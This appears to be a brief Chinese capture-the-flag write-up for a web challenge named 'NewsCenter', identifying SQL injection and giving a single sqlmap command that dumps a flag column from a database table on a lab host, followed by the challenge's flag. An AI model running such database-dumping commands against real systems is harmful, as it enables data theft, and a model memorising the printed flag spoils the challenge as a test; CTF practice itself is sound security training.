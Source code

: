 # NewsCenter

> sql注入,sqlmap一把梭获取所有数据

## 思路分析

> sql注入

## payload

> sqlmap -u http://61.147.171.105:59284 --data "search=df" -D news -T secret_table -C "fl4g" --dump

## flag

> QCTF{sq1_inJec7ion_ezzz}